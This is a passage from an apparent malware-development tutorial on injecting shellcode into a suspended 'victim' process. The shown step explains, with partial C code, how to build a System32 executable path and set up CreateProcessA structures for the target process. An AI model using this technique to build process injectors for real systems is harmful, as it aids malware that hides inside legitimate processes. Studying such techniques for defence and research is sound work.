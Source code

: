 We will use this function to inject the shell-code into the victim process once it exists.

## Step 2: Create Victim Process Function

In this step we will create another function that will handle the suspended process creation.  The function will have the following parameters: 

- lpProcessname: A variable that will contain the process name that will be executed.
- dwProcessId: A variable that we will use to store the PID of the new process.
- hProcess: A variable that we will use to store a handle of the new process.
- hThread: A variable that we will use to store a handle of a thread to the new process.

We start by creating two variables that will store the path of the process (`lpPath`) and the Windows directory OS path `WnDr`. 

Later we also create two structs that are needed to be used to call the `CreateProcessA` function. 

- `Si` - STARTUPINFO: Information related with initial configuration for the process.
- `Pi` - PROCESS_INFORMATION: Information about the process after being created.

After creating the structs, we clean its memory  using `RtlSecureZeroMemory` function to ensure they are empty.

```c
BOOL CreateSuspendedProcess(LPCSTR lpProcessName, DWORD* dwProcessId, HANDLE* hProcess, HANDLE* hThread) {

	CHAR					lpPath[MAX_PATH * 2];
	CHAR					WnDr[MAX_PATH];

	STARTUPINFO				Si = { 0 };
	PROCESS_INFORMATION		Pi = { 0 };

	// cleaning the structs 
	RtlSecureZeroMemory(&Si, sizeof(STARTUPINFO));
	RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));
...
```

We will now populate the `cb` key inside the STARTUPINFO struct with its size. Since we are not doing any changes, the size is the same as the normal struct size.

Afterwards, we will populate the `WnDr` variable with the value stored in the environmental variable `%WINDIR%`. It contains the path to the Windows OS directory.  

Finally, we concatenate the `WnDr`  string with `\System32\` (where most system executables exist) and the  process name stored in `lpProcessName` . The resulting string is stored in `lpPath` .   

```c
...
	// setting the size of the structure
	Si.cb = sizeof(STARTUPINFO);

	// Getting the %WINDIR% environment variable path (this is usually 'C:\Windows')
	if (!GetEnvironmentVariableA("WINDIR", WnDr, MAX_PATH)) {
		printf("[!] GetEnvironmentVariableA Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Creating the target process path 
	sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);
	printf("\n\t[i] Running : \"%s\" ... ", lpPath);

...
```
